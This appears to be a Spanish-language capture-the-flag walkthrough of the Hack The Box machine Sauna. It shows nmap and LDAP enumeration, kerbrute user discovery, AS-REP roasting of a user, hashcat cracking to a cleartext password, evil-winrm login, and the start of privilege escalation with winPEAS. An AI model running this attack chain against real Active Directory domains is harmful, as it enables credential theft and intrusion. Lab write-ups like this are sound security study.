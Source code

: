 `nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.175 -oG allPorts`
`nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49677,49689,49697 -sCV 10.10.10.175 -oN targeted`
 ``` python
53/tcp    open  domain       
80/tcp    open  http         
|_http-server-header: Microso
|_http-title: Egotistical Ban
| http-methods: 
|_  Potentially risky methods
88/tcp    open  kerberos-sec 
135/tcp   open  msrpc        
139/tcp   open  netbios-ssn  
389/tcp   open  ldap         
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         
3269/tcp  open  tcpwrapped
5985/tcp  open  http         
|_http-server-header: Microso
|_http-title: Not Found
9389/tcp  open  mc-nmf       
49668/tcp open  msrpc        
49673/tcp open  ncacn_http   
49674/tcp open  msrpc        
49677/tcp open  msrpc        
49689/tcp open  msrpc        
49697/tcp open  msrpc        
 ```


#### 445
`netexec smb $IP`
Añadimos el dominio de la maquina a `/etc/host`
`netexec smb $IP --shares`
`smbmap -H $IP`
`smbclient -L $IP -N`


#### 135
`rpcclient -U "" $IP -N`
	`enumdomusers` No nos deja acceder


#### 389
En hacktricks buscamos por el puerto y ahí buscamos por `ldapsearch` para ver diferentes formas de enumerar el servicio

`ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts`

```
namingcontexts: DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: CN=Schema,CN=Configuration,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=DomainDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL
namingcontexts: DC=ForestDnsZones,DC=EGOTISTICAL-BANK,DC=LOCAL

```

`ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' | grep "dn: CN="`

```ad-hint
CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

Para validar si existe nos crearemos un `.txt`, con diferentes combinaciones del usuario

Enumeraríamos a través de kerberos con la herramienta [[KERBRUTE]]
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`
```ad-hint
[+] VALID USERNAME:       hsmith@EGOTISTICAL-BANK.LOCAL
```

Si nos hubiese aparecido un hash es que es vulnerable a `AS_REP ROAST`

Tambien podemos enumerar usuariios con:
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Vamos a comprobrobar si se han reutilizado credenciales, 
`netexec smb $IP -u 'hsmith' -p 'hsmith'` No hay reutilización de credenciales


#### 53
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL ns`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL mx`
`dig @10.10.10.175 EGOTISTICAL-BANK.LOCAL axfr`

#### 80

Encontramos en `About Us` nombres de usuarios que añadiremos con el mismo formato que el encontrado anteriormente al documento de `users.txt`
```
hsmith
fsmith
scoins
hbear
btayler
skerb
```

Volvemos a usar [[KERBRUTE]] para identificar usuarios los usuarios encontrados:
`kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc $IP users.txt`

También lo podemos hacer con
`impacket-GetNPUsers -no-pass -usersfile users.txt EGOTISTICAL-BANK.LOCAL/`

Y nos mostraría que el usuario `fsmith` no cuenta con preautenticacion de kerberos y nos muestra el hash del Ticket Granting Ticket. Siendo asi vulnerable a `ASREPRoasting`

```ad-hint
ASREPRoasting en el usuario fsmith
```

Para crakeralo por fuerza bruta lo guardamos en un fichero llamado hash
Esta vez vamos ha crackearlo con la GPU directamente desde la máquina Windows, nos conectaremos por ssh a nuestra maquina HOST y navegaremos al directorio donde esta instalado el [[HASHCAT]], en nuestra maquina atacante levantamos un servicio SMB
`impacket-smbserver smbFolder $(pwd) -smb2support`

Y desde la máquina host obtenemos el archivo con el hash
`copy \\192.168.1.21\smbFolder\hash hash`

Ahora ejecutaremos [[HASHCAT]]
`hashcat.exe -m 18200 -a 0 hash rockyou.txt`

Nos muestra la contraseña del usuario `fsmith`
```ad-hint
fsmith::Thestrokes23
```

Comprobamos que la contraseña pertenezca al usuario 
`netexec smb $IP -u 'fsmith' -p 'Thestrokes23'`

Como el puerto `5985` esta abierto que corresponde al servicio de administración remota de Windows, así que vamos a intentar conectarnos con [[CRACKMAPEXEC-NETEXEC]]
`netexec winrm $IP -u 'fsmith' -p 'Thestrokes23'`

Nos aparece un `Pwn3d!` queriendo decir que este usuario pertenece al grupo de administración remota de la maquina pudiendo así acceder con [[EVIL_WINRM]]
`evil-winrm -i $IP -u 'fsmith' -p 'Thestrokes23'`

Obtenemos una consola interactiva


### Escalada de privilegios
`whoami /priv`
`whoami /all`

Ver que mas usuarios pertenecen al grupo de `REMOTE MANAGEMENT`
`net localgroup "Remote Management Users"`

Encontramos al usuario `svc_loanmgr`

Enumerar las credenciales del usuario:
Usaremos `WinPEAS` que nos lo transferiremos a la maquina atacante
`upload /home/jalag/Workzone/VPN/HTB/Machines/WorkLab/content/winPEAS.exe`

Ejecutamos el `winPEAS`
`.\winPEAS.exe`

